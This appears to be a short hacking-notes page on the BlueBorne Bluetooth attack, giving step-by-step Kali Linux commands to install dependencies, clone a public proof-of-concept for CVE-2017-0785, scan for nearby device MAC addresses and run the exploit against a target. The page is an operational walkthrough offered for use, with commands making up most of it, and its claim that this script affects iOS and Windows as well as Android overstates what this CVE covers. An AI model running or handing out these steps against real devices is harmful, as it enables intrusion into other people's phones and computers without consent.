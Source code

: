 #### Overview

The BlueBourne exploit targets unpatched Bluetooth devices, affecting iOS, Microsoft Windows, and Android. It attacks the SDP protocol and can exploit vulnerabilities without the device being in discoverable mode.

#### Steps to Exploit

1.  **Dependencies:**

    ```sh
    kali > apt-get install bluetooth libbluetooth-dev
    kali > pip install pybluez
    kali > pip install pwntools
    ```
2.  **Install the Python Script:**

    ```sh
    kali > git clone https://github.com/ojasookert/CVE-2017-0785
    kali > cd CVE-2017-0785
    kali > chmod 755 CVE-2017-0785.py
    ```
3.  **Get Target MAC Address:**

    ```sh
    kali > hcitool scan
    ```
4.  **Execute the BlueBourne Exploit:**

    ```sh
    kali > python CVE-2017-0785.py TARGET=<MAC_ADDRESS>
    ```

<figure><img src="../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>
